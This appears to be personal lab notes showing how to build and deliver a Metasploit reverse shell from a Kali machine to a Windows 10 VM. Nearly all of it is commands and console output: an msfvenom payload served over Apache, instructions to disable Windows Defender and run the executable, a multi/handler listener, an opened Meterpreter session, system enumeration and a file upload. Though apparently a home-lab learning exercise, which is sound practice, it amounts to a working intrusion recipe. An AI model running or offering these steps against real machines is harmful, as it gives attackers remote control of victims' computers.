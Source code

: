 ## shortcut on creating revershell with meterpreter/msf work in progress##

##launch terminal##
# run the following to escalate to root#
~$ sudo su

# run the following to create msfvenom reverse shell payload *.exe and place it into your webserver directory #
┌──(root💀kali )-[/g]
└─# msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > /var/www/html/fun.exe  


# the wares have been created run the following to start the appache webserver #
┌──(root💀kali )-[/g]
└─# service apache2 start


##### Go to Windows machine ######

### Turn off Windows defender, allow the virus to come thru because it will be detected##

 # Launch browser in windows. download and run executable msfvenom created #
open http://kaliipaddress/fun.exe 

# windows target is ready for expoiting and post exploitation ##

# Launch metasploit #

┌──(root💀kali)-[/g]
└─# msfconsole  


## run the following in metasploit, throw in an options or help command here and there ##

msf6 > use multi/handler

[*] Using configured payload generic/shell_reverse_tcp

msf6 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp

msf6 exploit(multi/handler) > set LHOST 0.0.0.0
LHOST => 0.0.0.0

msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 0.0.0.0:4444 
[*] Sending stage (175174 bytes) to <windowsip>
[*] Meterpreter session 1 opened (192.168.1.2:4444 -> 192.168.1.3:2352 ) at 2022-02-28 00:55:06 -0500

# you have now spawned reverse shell with meterpreter # 

meterpreter > sysinfo
 
Computer        : DESKTOP-WINDERS10 <br>
OS              : Windows 10 (10.0 Build 19044).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows

# open another terminal create a readme.txt to upload to windows computer in meterpreter #

┌──(root💀kali)-[/g]
└─# nano readme.txt  <-- paste in the msfbanner that launched at the beginning, (I used a cow and ninja)

# Go back to meterpreter #

> meterpreter > upload readme.txt
[*] uploading  : /g/readme.txt -> readme.txt
[*] Uploaded 1.39 KiB of 1.39 KiB (100.0%): /g/readme.txt -> readme.txt
[*] uploaded   : /g/readme.txt -> readme.txt
meterpreter > ls
> Listing: C:\Users\Gregster\Downloads

## vefify that the file is there list and then look at it in windows machine, change directories in meterpreter, stop apache2 call it a night tbc... #

┌──(root💀kali)-[/g]
└─# systemctl stop apache2  

┌──(root💀kali)-[/g]
└─# nmap -p80 localhost          
Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-28 01:40 EST
Nmap scan report for localhost (127.0.0.1)
Host is up (0.000086s latency).
Other addresses for localhost (not scanned): ::1

PORT   STATE  SERVICE
80/tcp closed http

# meterpreter
Metasploit/Meterpreter reverse shell from Kali to Windows VM
